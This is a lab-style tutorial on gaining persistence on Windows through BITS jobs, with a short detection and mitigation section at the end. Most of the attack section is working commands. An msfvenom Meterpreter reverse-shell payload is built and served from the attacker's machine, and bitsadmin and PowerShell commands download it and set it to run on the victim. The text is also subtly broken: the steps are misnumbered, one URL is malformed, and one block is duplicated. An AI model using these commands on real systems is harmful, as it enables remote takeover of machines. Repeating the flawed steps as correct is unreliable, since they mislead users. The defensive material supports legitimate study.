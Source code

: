 # Exploiting BITS Jobs for Persistence

## 1. Introduction

Background Intelligent Transfer Service (BITS) is a Windows service designed for low-bandwidth, asynchronous file transfers. It is commonly used by Windows Update, messaging applications, and other background services that require efficient file transfer without disrupting network performance. However, adversaries can abuse BITS jobs for malicious purposes, including persistent code execution, downloading and executing payloads, and exfiltrating data.

---

## 2. Understanding BITS Jobs and Why They Are Exploitable

BITS operates by creating and managing jobs that handle file transfers. These jobs can be configured to:
- Download and execute files
- Run commands upon completion or failure
- Store job configurations in a database, avoiding registry modifications
- Persist across reboots with a default maximum lifetime of 90 days (extendable)

The BITS interface can be accessed via:
- PowerShell (`Start-BitsTransfer`, `Get-BitsTransfer`)
- BITSAdmin tool (`bitsadmin /transfer`)

Since BITS jobs are often allowed by host firewalls and do not create obvious new files, they provide a stealthy mechanism for attackers to execute malicious code and maintain persistence on a target system.

---

## 3. Attack Scenario: Persistence via BITS Jobs

### 3.1. Lab Setup

This attack is demonstrated in a controlled lab environment using VMware Workstation. The setup consists of:
- **Attacker:** Kali Linux : 192.168.1.131 (running Metasploit Framework)
- **Victim:** Windows 10: 192.168.1.129 (BITS service enabled)
- **Network Configuration:** Host-only or bridged network mode to allow direct communication

### 3.2. Attack Execution

#### Step 1: Using Metasploit to create payload
On Kali Linux, open a terminal and generate a malicious executable:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.131 LPORT=4444 -f exe > /tmp/payload.exe
```
Now, set up a listener in Metasploit:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.131
set LPORT 4444
exploit
```
This will start a reverse shell listener waiting for the victim to execute the malicious file.
#### Step 3: Send Payload through Python HTTP Server
```bash
cd /tmp
python3 -m http.server 8080
```
#### Step 2: Creating a Malicious BITS Job

On the compromised Windows machine, the attacker executes PowerShell commands to create a persistent BITS job:
```powershell
$job = Start-BitsTransfer -Source "http://192.168.1.131/payload.exe:8080" -Destination "C:\Users\Public\payload.exe"
bitsadmin /create /download MaliciousJob
bitsadmin /addfile MaliciousJob "http://attacker-server/payload.exe" "C:\Users\Public\payload.exe"
bitsadmin /setnotifycmdline MaliciousJob "C:\Users\Public\payload.exe" ""
bitsadmin /resume MaliciousJob
```
This command sequence:
- Downloads a payload from the attacker's server
- Saves it to a writable directory (`C:\Users\Public\`)
- Configures the job to execute the payload once the transfer is complete
- Resumes the job to trigger execution

#### Step 3: Achieving Persistence

Since BITS jobs persist in the system’s job queue, they remain active even after reboots. To confirm persistence, the attacker can run:
```powershell
Get-BitsTransfer | Format-Table -AutoSize
```
If the system is restarted, the job will still exist, allowing the payload to be re-executed.

---

## 4. Setting Up a Listener on Kali Linux

To capture the reverse shell, the attacker sets up a Metasploit listener:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.131
set LPORT 4444
exploit
```
When the victim executes the payload, a Meterpreter session is established, giving the attacker control over the compromised system.

---

## 5. Detecting and Mitigating BITS Job Abuse

### 5.1. Detection

Administrators can monitor for suspicious BITS jobs by running:
```powershell
Get-BitsTransfer -AllUsers | Select-Object -Property DisplayName, JobState, Owner, TransferType, NotifyCmdLine
```
Additionally, security logs and endpoint detection tools can help identify unexpected BITS activity.

### 5.2. Mitigation

To remove suspicious BITS jobs, execute:
```powershell
Get-BitsTransfer | Remove-BitsTransfer
```
To further secure the system:
- Restrict BITS job creation to trusted applications using Group Policy
- Monitor and log BITS activity for anomalous behavior
- Use application whitelisting to prevent unauthorized execution

---

## 6. Conclusion

BITS Job Persistence is a stealthy technique that attackers can use to maintain access on a Windows system. By leveraging the native BITS service, adversaries can execute payloads, evade detection, and maintain persistence without modifying the registry or creating new scheduled tasks. Understanding this technique is crucial for defenders to detect and mitigate such attacks effectively.
